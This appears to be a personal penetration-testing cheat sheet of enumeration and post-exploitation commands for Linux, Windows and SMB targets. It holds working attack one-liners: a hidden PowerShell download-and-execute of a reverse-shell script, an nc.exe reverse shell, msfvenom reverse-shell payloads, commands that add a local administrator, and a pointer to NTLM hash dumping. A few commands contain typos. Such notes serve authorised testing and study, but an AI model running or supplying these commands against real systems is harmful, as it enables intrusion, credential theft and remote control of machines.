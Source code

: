Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files   
find / -perm -u=s -type f 2>/dev/null  //SUID files
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  


SMBEnum:
--------------------------------------------------
nmblookup -A [ip]    
nbtscan [ip]    
smbmap -H [ip]    
smbclient -L [ip]    
smbclient //[ip]/tmp    

rpcclient -U "" -N [ip]      
enumdomusers  

nmap --script smb-vuln* -p 139,445 [ip]    
nmap --script smb-enum-shares -p 139,445 [ip]  
enum4linux -a [ip]    
  
File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "C:\Users\Public\Documents\file.exe") 

powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')  

rdesktop (ip) -r disk:share=/home/store  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  
stty rows 56 columns 213  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

PSAddAdminUser  
net user /add [*username] [password]  
net localgroup administrators [username] /add  
net localgroup "Remote Desktop Users" alex /add  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

MSFVenom Shell:
--------------------------------------------------
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp  
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe

Pivoting:
--------------------------------------------------
https://github.com/21y4d/Notes/blob/master/Pivoting.txt  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html  //SQLTips  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/  //MoreSQL  
https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh  //nmapAutomator  
